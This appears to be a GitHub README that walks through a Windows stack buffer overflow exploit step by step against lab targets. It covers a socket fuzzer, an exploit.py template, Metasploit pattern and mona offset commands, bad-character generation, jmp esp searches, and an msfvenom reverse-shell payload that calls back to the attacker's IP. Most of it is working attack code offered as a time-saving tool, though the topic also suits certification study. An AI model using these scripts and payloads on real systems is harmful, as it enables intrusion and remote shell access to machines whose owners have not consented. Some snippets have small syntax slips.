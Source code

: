 # Buffer-Overflow-Script
The script help you to understand the bascis of Buffer overflow and will save you a lot of time while executing the attack.

I have created different file step by step to make.
Below is the following sequence -
1. Fuzzing (fuzzer.py)
2. Crash Replication & Controlling EIP (Crash Replication.py)
3. Metasploit random pattren 
4. use mona to find out the pattren offset
5. Finding Bad Characters (Badchars.py)
6. Finding a Jump Point
7. Generate Payload
8. Prepend NOPs
9. Use everything above and add your prefix + overflow + retn + padding + payload + postfix
 to **exploit.py**

Important 1st set **Mona Configuration** to a specific folder

```
!mona config -set workingfolder c:\mona\%p
```

# **Fuzzing**

Create a file on your Kali box called fuzzer.py with the following contents:

fuzzer.py

```python
import socket, time, sys

ip = "MACHINE_IP"
port = 1337
timeout = 5

buffer = []
counter = 100
while len(buffer) < 30:
    buffer.append("A" * counter)
    counter += 100

for string in buffer:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.settimeout(timeout)
        connect = s.connect((ip, port))
        s.recv(1024)
        print("Fuzzing with %s bytes" % len(string))
        s.send("OVERFLOW1 " + string + "\r\n")
        s.recv(1024)
        s.close()
    except:
        print("Could not connect to " + ip + ":" + str(port))
        sys.exit(0)
    time.sleep(1
```

# **Crash Replication & Controlling EIP**

exploit.py

```python
import socket

ip = "MACHINE_IP"
port = 1337

prefix = "OVERFLOW1 "
offset = 0
overflow = "A" * offset
retn = ""
padding = ""
payload = ""
postfix = ""

buffer = prefix + overflow + retn + padding + payload + postfix

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    s.connect((ip, port))
    print("Sending evil buffer...")
    s.send(buffer + "\r\n")
    print("Done!")
except:
    print("Could not connect.")
```

Creating a pattern with -l with no. of crash + 400 as saftey

```python
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 600
```

Copy the output and place it into the payload variable of the [exploit.py](http://exploit.py/) script.

To find offset of the EIP (On the Debugger)

findmsp

The findmsp command will find all instances or certain references to a cyclic pattern (a.k.a. “Metasploit pattern”) in memory, registers, etc

```python
!mona findmsp -distance 600
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a809067e-588c-4c61-964c-99f9f967dafb/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a809067e-588c-4c61-964c-99f9f967dafb/Untitled.png)

we are controlling EIP. in the end we need to make jump through it

update your exploit.py script and set the offset variable to this value (was previously set to 0). Set the payload variable to an empty string again. Set the retn variable to "BBBB".

Restart oscp.exe in Immunity and run the modified exploit.py script again. The EIP register should now be overwritten with the 4 B's (e.g. 42424242).

# **Finding Bad Characters**

just find badchar sending via payload then esp dump thing find the bad chars

jump to them to find the return value

Generate a bytearray using mona, and exclude the null byte (\x00) by default. Note the location of the bytearray.bin file that is generated (if the working folder was set per the Mona Configuration section of this guide, then the location should be C:\mona\oscp\bytearray.bin).

IMP —- use direct bad chars just edit it no neeed to type shit.

```python
!mona bytearray -b "\x00"
```

Now generate a string of bad chars that is identical to the bytearray. The following python script can be used to generate a string of bad chars from \x01 to \xff:

```python
from __future__ import print_function

for x in range(1, 256):
    print("\\x" + "{:02x}".format(x), end='')

print()
```

Update your [exploit.py](http://exploit.py/) script and set the payload variable to the string of bad chars the script generates.

```python
!mona compare -f C:\mona\oscp\bytearray.bin -a <ESP_address>
```

ESP > follow the dump for more accurate result

# **Finding a Jump Point**

```python
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' will output the payload we want, but it requires manually converting to little endian
```

```python
Method 2 - Struct:
```

```python
python -c 'import struct;print "A"*44 + struct.pack("<I",0x080484cb)'
```


It requires importing a module but struct.pack allows us to automatically convert memory to little endian.


We print 44 random characters(in this case A) and then our memory address in little endian, and shell should execute. This can be tested by piping the output in to the binary


```python
python -c 'print "A"*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
```

With the oscp.exe either running or in a crashed state, run the following mona command, making sure to update the -cpb option with all the badchars you identified (including \x00):

```python
!mona jmp esp -m gatekeeper.exe
!mona jmp -r esp -cpb "\x00(badchars)"
```

This command finds all "jmp esp" (or equivalent) instructions with addresses that don't contain any of the badchars specified. The results should display in the "Log data" window (use the Window menu to switch to it if needed).

Choose an address and update your exploit. script, setting the "retn" variable to the address, written backwards (since the system is little endian). For example if the address is \x01\x02\x03\x04 in Immunity, write it as \x04\x03\x02\x01 in your exploit.

# **Generate Payload**

Run the following msfvenom command on Kali, using your Kali VPN IP as LHOST and updating the -b option with all the badchars you identified (including \x00):

```python
msfvenom -p windows/shell_reverse_tcp LHOST=YOUR_IP LPORT=4444 EXITFUNC=thread -b "\x00" -f py
```

Copy the generated python code and integrate it into your exploit.py script, e.g. by setting the payload variable equal to the buf variable from the code.

# **Prepend NOPs**

Since an encoder was likely used to generate the payload, you will need some space in memory for the payload to unpack itself. You can do this by setting the padding variable to a string of 16 or more "No Operation" (\x90) bytes:

```
padding = "\x90" * 16

```
